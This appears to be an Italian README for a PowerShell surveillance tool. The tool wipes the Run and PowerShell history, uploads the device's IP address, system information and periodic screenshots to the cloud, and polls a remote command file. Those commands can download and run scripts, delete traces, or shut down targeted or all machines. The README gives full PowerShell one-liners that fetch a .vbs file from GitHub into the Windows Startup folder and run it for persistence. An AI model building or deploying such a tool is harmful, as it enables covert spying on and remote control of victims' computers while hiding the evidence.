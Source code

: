  FUNZIONALITÀ:
  - cancella cronologia esegui e cronologia powershell
  - carica un file con l'indirizzo ip del dispositivo
  - carica un file con alcune informazioni sul dispositivo
  - carica ogni "interval" secondi lo screenshot dello schermo
  - controllo ogni "command_control" screenshot un file .txt di comando


 FILE DI SUPPORTO:
  - file .json di configurazione per impostare il programma appena avviato
  - file .txt di comando per gestire il programma durante l'esecuzione
  - file .exe salvato nella cartella di startup che esegue il programma all'avvio del computer


 COMANDI:
  - startScreen: avvia l'operazione di creazione e salvataggio screenshot
  - pauseScreen: mette in pausa l'operazione di creazione e salvataggio sreenshot
  - stopScript: termina l'esecuzione del programma
  - clearFiles: elimina tutti i file del programma contenuti nel computer
  - runCode: esegue un file esterno tramite un job in asincrono
	    - <nomeFile>: scarica il file <nomeFile> dalla cartella scripts del cloud
	    - numberCode <n>: scarica il file dall'n-esimo url del file .json
  - offPC: spegne il computer
  - restartPC: riavvia il computer


 SINTASSI COMANDI: <destinatario> <comando> <n>
  - destinatario: nome del computer a cui far eseguire il comando
	    - NOME-ES: solo il computer NOME-ES
	    - !NOME-ES: tutti i computer eccetto NOME-ES
	    - ALL: ogni dispositivo
  - comando: comando da eseguire
  - n: quante volte eseguire il comando
	    - n > 0: il comando viene eseguito n volte e al termine il file .txt viene sovrascritto da un file vuoto
	    - n = 0 o "": il comando viene eseguito all'infinito

COMANDO PER IL DOWNLOAD DEL FILE .vbs NELLA CARTELLA DI AVVIO DEL COMPUTER (comando da eseuire all'interno di Windows Run: Win + r)
 - powershell -Command "Invoke-WebRequest -Uri https://raw.githubusercontent.com/simonemichele05/PowershellProgetto/main/avvio.vbs -OutFile ($env:appData + '\Microsoft\Windows\Start Menu\Programs\Startup\avvio.vbs')"

COMANDO PER L'AVVIO DEL FILE .vbs NELLA CARTELLA DI AVVIO DEL COMPUTER (il comando in realtà è superfluo: il file verrà comunque eseguito all'avvio del computer)
 - powershell -Command ".($env:appData + '\Microsoft\Windows\Start Menu\Programs\Startup\avvio.vbs')"

COMANDO PER IL DOWNLOAD E PER L'ESECUZIONE DEL FILE .vbs (PROBLEMA: il comando è troppo lungo e non può essere eseguito)
 - powershell -Command "Invoke-WebRequest -Uri https://raw.githubusercontent.com/simonemichele05/PowershellProgetto/main/avvio.vbs -OutFile ($env:appData + '\Microsoft\Windows\Start Menu\Programs\Startup\avvio.vbs'); .($env:appData + '\Microsoft\Windows\Start Menu\Programs\Startup\avvio.vbs')"
